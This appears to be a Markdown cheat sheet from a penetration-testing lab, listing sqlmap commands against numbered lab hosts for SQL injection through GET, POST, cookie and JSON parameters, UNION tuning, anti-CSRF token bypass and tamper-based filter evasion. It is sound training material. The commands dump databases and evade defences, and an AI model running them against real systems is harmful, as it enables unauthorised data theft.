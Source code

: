 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://94.237.52.98:38740/case7.php?id=1 --union-cols=5 --level 5 --risk 3 -p id --batch --dbs
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:46258/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```

# Unique ID

```bash
sqlmap -u "http://94.237.52.98:38740/case9.php?id=1&uid=1705034632" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs --randomize=uid
```

# Primitive protection

```bash
sqlmap -u "http://94.237.52.98:38740/case10.php" --data='id=1' --batch --threads 10 --dbms=mysql --dbs --random-agent
```

# Filtering of characters '<', '>'

```bash
sqlmap -u "http://94.237.52.98:38740/case11.php?id=1" -p id --batch --dbms=mysql --dbs --tamper=between
```

```txt
[WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to reru  
n with the '--tamper=between'
```

